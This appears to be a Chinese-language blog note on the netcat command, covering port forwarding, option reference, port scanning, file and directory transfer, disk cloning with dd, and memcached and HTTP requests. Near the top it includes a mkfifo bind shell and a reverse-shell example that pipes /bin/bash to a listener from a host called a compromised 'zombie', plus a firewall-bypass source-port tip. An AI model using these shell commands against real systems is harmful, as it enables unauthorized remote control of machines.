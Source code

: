 ```yaml
---
title: Linux命令 netcat
date: 2016-01-06T16:46:14+08:00
update: 2016-01-01
categories: [linux_base]
tags: [netcat]
---
```

# 转发本地端口
`nc -l 8001 -c "nc localhost 8000"` #外网执行 监听本机8001端口，并将流量转发到8000

rm -f /tmp/f; mkfifo /tmp/f ; cat /tmp/f | /bin/sh -i 2>&1 | nc -l 127.0.0.1 9999 > /tmp/f

## 反向shell
服务端 nc -l 1567
肉鸡  nc 172.31.100.7 1567 -e /bin/bash

##  10. 指定源端口
假设你的防火墙过滤除25端口外其它所有端口，你需要使用-p选项指定源端口。
$nc 172.31.100.7 1567 -p 25


功能说明：功能强大的网络工具
语　　法：nc [-hlnruz] [-g<网关...>][-G<指向器数目>][-i<延迟秒数>][-o<输出文件>] [-p<通信端口>][-s<来源位址>][-v...][-w<超时秒数>][主机名称][通信端口...]


想要连接到某处: nc [-options] hostname port[s] [ports]
绑定端口等待连接: nc -l -p port [-options] [hostname] [port]

参数:
-g gateway source-routing hop point[s], up to 8
-G num source-routing pointer: 4, 8, 12, …
-h 帮助信息
-i secs 延时的间隔
-l 监听模式，用于入站连接
-n 指定数字的IP地址，不能用hostname
-o file 记录16进制的传输
-p port 本地端口号
-r 任意指定本地及远程端口
-s addr 本地源地址
-u UDP模式
-v 详细输出——用两个-v可得到更详细的内容
-w secs timeout的时间
-z 将输入输出关掉——用于扫描时，其中端口号可以指定一个或者用lo-hi式的指定范围。

参　　数：
-l   使用监听模式，管控传入的资料。
-v   显示指令执行过程。
-n   直接使用IP地址，而不通过域名服务器。
-u   使用UDP传输协议。
-r   乱数指定本地与远端主机的通信端口。
-z   使用0输入/输出模式，只在扫描通信端口时使用。

-G<指向器数目>   设置来源路由指向器，其数值为4的倍数。
-g<网关>   设置路由器跃程通信网关，最丢哦可设置8个。
-o<输出文件>   指定文件名称，把往来传输的数据以16进制字码倾倒成该文件保存。
-s<来源位址>   设置本地主机送出数据包的IP地址。
-p<通信端口>   设置本地主机使用的通信端口。
-i<延迟秒数>   设置时间间隔，以便传送信息及扫描通信端口。
-w<超时秒数>   设置等待连线的时间。

简单用法举例
在端口1234建立连接，互相发送输入
nc -l 1234
nc 127.0.0.1 1234

nc -p 1234 -w 5 host.example.com 80
建立从本地1234端口到host.example.com的80端口连接，5秒超时
nc -u host.example.com 53
u为UDP连接

echo -n “GET / HTTP/1.0″r”n”r”n” | nc host.example.com 80
连接到主机并执行

nc -v -z host.example.com 70-80
扫描端口(70到80)，可指定范围。-v输出详细信息。

1）端口扫描
# nc -v -w 2 192.168.2.34 -z 21-24
nc: connect to 192.168.2.34 port 21 (tcp) failed: Connection refused
Connection to 192.168.2.34 22 port [tcp/ssh] succeeded!
nc: connect to 192.168.2.34 port 23 (tcp) failed: Connection refused
nc: connect to 192.168.2.34 port 24 (tcp) failed: Connection refused

2) 传输文件
  `nc -l 1234 > test.txt`
  `nc 192.168.2.34 < test.txt`

  `cat rpyc.py |nc -l 1234`
  `nc 10.246.46.15  1234 > rpyc.py `

3)简单聊天工具
在192.168.2.34上： nc -l 1234
在192.168.2.33上： nc 192.168.2.34 1234
这样，双方就可以相互交流了。使用ctrl+C(或D）退出。

3.用nc命令操作memcached
1）存储数据：printf “set key 0 10 6rnresultrn” |nc 192.168.2.34 11211
2）获取数据：printf “get keyrn” |nc 192.168.2.34 11211
3）删除数据：printf “delete keyrn” |nc 192.168.2.34 11211
4）查看状态：printf “statsrn” |nc 192.168.2.34 11211
5）模拟top命令查看状态：watch “echo stats” |nc 192.168.2.34 11211
6）清空缓存：printf “flush_allrn” |nc 192.168.2.34 11211 (小心操作，清空了缓存就没了）


扩展资料二:命令linux nc 命令传输文件

nc到底干嘛用的我不多描述，今天主要讲下用nc传输文件。由于公司的设备sudo后没有ssh，scp等远程接入命令，或host.deny里面设置了 ssh的deny，不管怎样的原因。我今天跨过大家常用的scp,来说明下一个更有用的轻量级工具，nc的另一个强大的功—文件传输。

范例如下：

目的主机监听
nc -l 监听端口  > 要接收的文件名
nc -l 4444 > cache.tar.gz

源主机发起请求
nc  目的主机ip    目的端口
nc  192.168.0.85  4444



server1: 192.168.228.221
server2: 192.168.228.222
二、常见使用
1、远程拷贝文件
remote: `nc -lp 1234 > install.log`
local:  `nc -w 1 192.168.228.222 1234 < install.log`

2、克隆硬盘或分区
操作与上面的拷贝是雷同的，只需要由dd获得硬盘或分区的数据，然后传输即可。
克隆硬盘或分区的操作，不应在已经mount的的系统上进行。所以，需要使用安装光盘引导后，进入拯救模式（或使用Knoppix工 具光盘）启动系统后，在server2上进行类似的监听动作：
# nc -l -p 1234 | dd of=/dev/sda
server1上执行传输，即可完成从server1克隆sda硬盘到server2的任务：
# dd if=/dev/sda | nc 192.168.228.222 1234

3、端口扫描
# nc -v -w 1 192.168.228.222 -z 1-1000
hatest2 [192.168.228.222] 22 (ssh) open

4、保存Web页面
# while true; do nc -l -p 80 -q 1 < somepage.html; done

5、模拟HTTP Headers

[root@hatest1 ~]# `nc www.linuxso.com 80`
GET / HTTP/1.1
Host: ispconfig.org
Referrer: mypage.com
User-Agent: my-browser
在nc命令后，输入红色部分的内容，然后按两次回车，即可从对方获得HTTP Headers内容。

HTTP/1.1 200 OK
Date: Tue, 16 Dec 2008 07:23:24 GMT
Server: Apache/2.2.6 (Unix) DAV/2 mod_mono/1.2.1 mod_python/3.2.8 Python/2.4.3 mod_perl/2.0.2 Perl/v5.8.8
Set-Cookie: PHPSESSID=bbadorbvie1gn037iih6lrdg50; path=/
Expires: 0
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Cache-Control: private, post-check=0, pre-check=0, max-age=0
Set-Cookie: oWn_sid=xRutAY; expires=Tue, 23-Dec-2008 07:23:24 GMT; path=/
Vary: Accept-Encoding
Transfer-Encoding: chunked
Content-Type: text/html
[......]

6、聊天
nc还可以作为简单的字符下聊天工具使用，同样的，server2上需要启动监听：
`nc -lp 1234`

server1上传输：
` nc 192.168.228.222 1234`

7、传输目录
从server1拷贝nginx-0.6.34目录内容到server2上。需要先在server2上，用nc激活监听，server2上运行：
`nc -l 1234 |tar xzvf -`
`tar czvf – nginx-0.6.34|nc 192.168.228.222 1234`

8、参数简介
这仅是一个1.10版本的简单说明，详细的参数使用还是需要看man：
引用
